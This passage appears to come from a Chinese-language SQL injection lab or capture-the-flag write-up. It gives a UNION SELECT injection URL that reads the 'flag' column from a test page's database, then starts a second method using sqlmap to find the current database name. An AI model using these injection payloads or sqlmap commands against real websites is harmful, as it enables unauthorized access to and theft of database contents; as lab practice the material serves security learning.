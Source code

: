 获取`flag`表的中列的值

```
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid= -1' union select 1,flag,3,4 from flag %23
```

![获取flag表的中列的值](/images/1_4.png)


### 方法二

#### 工具

* python 2.7.15
* sqlmap

#### 步骤

获取当前数据库名称

```
python sqlmap.py -u http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid=1 -p gid --current-db
```
